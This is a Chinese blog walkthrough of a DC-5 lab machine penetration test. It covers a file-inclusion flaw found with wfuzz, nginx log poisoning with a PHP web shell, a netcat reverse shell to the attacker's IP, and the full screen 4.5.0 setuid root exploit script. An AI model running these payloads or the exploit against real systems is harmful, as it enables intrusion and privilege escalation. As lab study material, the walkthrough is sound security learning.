 ```yaml
---
title: DC_5靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_3.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: 渗透测试
tags: [渗透测试, DC]   # 可以是数组
top: false


---
```


# DC_5靶机渗透测试



[参考链接1](https://www.cnblogs.com/wzy-ustc/p/14606475.html)

[参考链接2](https://blog.mzfr.me/vulnhub-writeups/2019-07-09-DC5)



## 信息收集

- 首先扫描出靶机， IP为192.168.0.149

![image-20210701112058852](http://cdn.mxrblog.cn/image-20210701112058852.png)

- 扫描靶机开放端口, 开放80端口

![image-20210701112246220](http://cdn.mxrblog.cn/image-20210701112246220.png)

- 浏览器打开192.168.0.149

![image-20210701112421282](http://cdn.mxrblog.cn/image-20210701112421282.png)

- 用dirb和dirbuster分别进行目录扫描

![image-20210701114840558](http://cdn.mxrblog.cn/image-20210701114840558.png)

- 啥也没有， 尝试在contact us页面提交一些内容

![image-20210701115231365](http://cdn.mxrblog.cn/image-20210701115231365.png)

- 都能传东西了。可能存在一些文件包含漏洞吧，利用brupsuite查看信息

![image-20210701125839801](http://cdn.mxrblog.cn/image-20210701125839801.png)

- 寻找可以包含参数的文件变量名——使用工具wfuzz

```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://192.168.0.149/thankyou.php?FUZZ=/etc/passwd  //FUZZ后面接被包含的文件
```

- 可以拿到与众不同的file文件，由于参数传进去了，自然就不一样了

![image-20210701150356952](http://cdn.mxrblog.cn/image-20210701150356952.png)

- 之前通过扫描知道了该靶机的网络服务器是nginx，Google搜素后发现nginx的日志文件可以在其配置文件/etc/nginx/nginx.config中找到, 于是我们修改file的参数为配置文件路径

![image-20210702002453469](http://cdn.mxrblog.cn/image-20210702002453469.png)

- 发现两个可以被利用的配置文件：

```
access_log:   /var/log/nginx/access.log
error_log:    /var/log/nginx/error.log
```

- 我们利用配置文件access_log， 在配置文件中写入木马：

```
<?php system($_GET['shell']);?>  //shell为参数可以被任意的修改

/var/log/nginx/access.log&shell=nc -e /bin/sh 192.168.0.130 4444  //nc向攻击机器·上发送shell
```

![image-20210702011941956](http://cdn.mxrblog.cn/image-20210702011941956.png)



- 在攻击机器上监听本地4444端口

![image-20210702012135051](http://cdn.mxrblog.cn/image-20210702012135051.png)

- 使用python脚本获取交互式shell

```
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20210702012623598](http://cdn.mxrblog.cn/image-20210702012623598.png)

- 发现我们只是普通用户，无法查看/home/dc中的内容，的想办法来提权
- 先查看可以提权的文件：

```
find / -perm -u=s -type f 2> /dev/null
```

![image-20210702013130321](http://cdn.mxrblog.cn/image-20210702013130321.png)

- 搜索一下screen-4.5.0，发现存在漏洞， 并找到所在的路径

![image-20210702015034118](http://cdn.mxrblog.cn/image-20210702015034118.png)

- 查看41154.sh

![image-20210702015722294](http://cdn.mxrblog.cn/image-20210702015722294.png)

- 按照上面说的一步一步来

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell 

```

- 首先在攻击机器上先编译好，然后再在攻击机器上开启http服务，将编辑好的文件传到靶机
- 在宿主机上分别执行以下命令：

```
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
```

- 得到文件后在文件所在目录开启http服务，如果不在文件所在的地方开启服务就会导致靶机显示找不到文件

```
python -m SimpleHTTPServer 9000
```

- 在靶机的/tmp文件夹使用wget下载文件，注意一定要在/tmp目录下载，一方面待会的行动会从/tmp目录下读取，更重要的是在/www/html目录下，无法下载文件，会显示无权限写入文件，这是因为/www/html目录的写入是需要root用户权限的

![image-20210702034418648](http://cdn.mxrblog.cn/image-20210702034418648.png)

- 让我们来执行接下来的步骤

![image-20210702034616197](http://cdn.mxrblog.cn/image-20210702034616197.png)

- 得到权限后进入root目录下

![image-20210702034740792](http://cdn.mxrblog.cn/image-20210702034740792.png)



### 太难了我！！！

